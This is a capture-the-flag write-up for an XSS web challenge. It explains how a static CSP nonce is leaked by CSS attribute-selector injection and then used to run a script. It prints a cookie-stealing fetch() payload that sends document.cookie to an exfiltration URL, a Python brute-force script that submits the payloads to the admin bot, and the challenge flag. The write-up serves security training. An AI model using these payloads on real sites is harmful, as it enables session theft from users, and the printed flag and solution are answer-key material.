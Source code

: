 ```yaml
---
title: Calculator of Special People
sidebar_position: 1
description: "Steal the cookie, like how Minji steals hearts."
tags: ["XSS", "CSP", "CSS Injection"]
---
```



# Calculator of Special People

<ChallengeInfo
  author="dovodedomo"
  points={919}
  difficulty="Easy"
  solves={10}
  description="Steal the cookie, like how Minji steals hearts."
  chall="/files/arkavidia-2025/calculator-of-special-people/dist.zip"
/>
<FlagBox>ARKAV\{NONcE_0F_US_IS_AS_SMART_AS_ALL_OF_US\}</FlagBox>
## Chall Details 📝
| Aspects     | App         | Bot           |
| :---        | :---        | :---          |
| Language    | Node.js     | Node.js       |
| Port        | 8020        | 8021:80       |

## Goal 🏁
Steal the flag, which is placed as the admin bot's cookie.

## Endpoints 🕸️
- `/report` : The admin bot's page.  
  The `/report` page is accessible from the outside network, and it contains the flag in the form of a cookie.  
  An input text field is provided to report a url. The bot will then access the url and report back the response.  
  <u>The flag could be stolen through XSS (Cross-site scripting).</u>
  ![report endpoint](./img/calculator-of-special-people/report.png)
  :::tip
  A challenge with a flag in the form of a cookie of an admin bot is usually an **XSS challenge**.
  :::

- `/` : The main page of the calculator.  
  This page is only accessible from the local network, so you need to access it through the bot.
  ```nginx title="proxy.conf"
  server {
    listen 80;
    absolute_redirect off;

    location /report/ {
        proxy_pass http://bot/;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }

    location / {
        deny all; # prevent access from outside network
        proxy_pass http://app:8020/;
        proxy_buffering off;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-Host $host;
        proxy_set_header X-Forwarded-Port $server_port;
    }
  }
  ```
  If we analyze it locally using the provided source code, we can see that the page is protected by a CSP (Content Security Policy).
  ```html title="/app/html/index.html"
  ... snip ...
  <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-{{nonce}}'; style-src 'self' 'unsafe-inline'; frame-src 'none'; object-src 'none'; base-uri 'self'; media-src 'self'; font-src 'self';">
  ... snip ...
  ```
  From the snippet above, we can conclude that the app is <u>vulnerable to CSS Injection</u>, since style-src is set to `unsafe-inline`.

  Every partnerName input is reflected to the DOM. If we could bypass the CSP, we could inject a script to steal the cookie. 
  ![calculator-of-special-people](./img/calculator-of-special-people/root.png)

## Solution 💡
  Notice how there's a `nonce` in the CSP header. Typically, `nonce` is randomized for every request.
  However, in this case, the `nonce` is static. This means that we can inject a script with the `nonce` value as the `nonce` attribute.
  
  But, how do we get the `nonce` value?
  We can get the `nonce` value by utilizing CSS Injection.  
  The `nonce` is not just located in the `meta` tag, but also hidden in the `input` field.
  ```html
  <style>
    input[name="nonce"]{display:block!important;}
    input[name="nonce"][value^="{test_prefix}"]{background:url({exfil_url}?q={test_prefix});}
  </style>'
  ```

  Using this approach, if exists a `nonce` value that starts with `{test_prefix}`, the background image will be loaded from `{exfil_url}?q={test_prefix}`.
  We can check from our server (either webhook.site or `python -m http.server 8000` + ngrok) if the request is made. If the request is made, we can extract the `nonce` value from the `q` parameter.

  Do this for enough time, and the `nonce` value will be revealed.  
  ![nonce leak](./img/calculator-of-special-people/nonce-leak.png)

  After we get the `nonce` value, we can inject a script to steal the cookie.
  ```html
  <script nonce="arvAK9">
    fetch('{exfil_url}?c='+document.cookie);
  </script>
  ```
  :::note
  `exfil_url` is the URL where the `nonce` value is exfiltrated.
  :::

  After the script is injected, the cookie will be sent to the webhook/http server.

  ![flag exfiltration](./img/calculator-of-special-people/flag-exfil.png)

## Script 💻
The following script loops through all printable ASCII characters to exfiltrate the `nonce` value.
However, the script is interactive, so you need to input whether the character is correct or not.  
You may call it semi-bruteforce, i guess?
```python
import time
import requests
import urllib.parse
import string

# ----- Injector Setup -----
base_url = ""  # Base URL of the target application
target_url = f"{base_url}/report/"
base_injection_url = "http://app:8020/"
headers = {}

charset = string.printable.strip()  # All printable ASCII characters
exfil_url = "" # URL to exfiltrate the nonce value

def send_payload(prefix, candidate):
    """Send a payload for a given character at the next position."""
    test_prefix = prefix + candidate
    css_payload = (
        f'<style>'
        f'input[name="nonce"]{{display:block!important;}}'
        f'input[name="nonce"][value^="{test_prefix}"]{{background:url({exfil_url}?q={test_prefix});}}'
        f'</style>'
    )
    injection = base_injection_url + "?partnerName=" + urllib.parse.quote(css_payload)
    data = {"url": injection}

    print(f"[*] Trying candidate '{candidate}' (prefix: {test_prefix})")
    try:
        resp = requests.post(target_url, headers=headers, data=data, timeout=5)
        print(f"    Sent payload; status: {resp.status_code}")
    except Exception as e:
        print(f"    Error sending payload for '{candidate}': {e}")

    time.sleep(1)  # 1-second delay to prevent rate limiting

# Loop to keep testing different prefixes
while True:
    prefix = input("\n[?] Enter known prefix (or leave empty to exit): ").strip()
    if not prefix:
        print("[-] Exiting.")
        break

    for candidate in charset:
        send_payload(prefix, candidate)

        # Ask for user input before proceeding
        user_input = input(f"[?] Was '{candidate}' correct? (y/n): ").strip().lower()
        if user_input == 'y':
            prefix += candidate  # Append the correct character
            print(f"[+] Updated prefix: {prefix}")
            break  # Move to the next position
        elif user_input == 'n':
            continue  # Try the next candidate

    print(f"[*] Current prefix: {prefix} - Proceeding to next character.")
```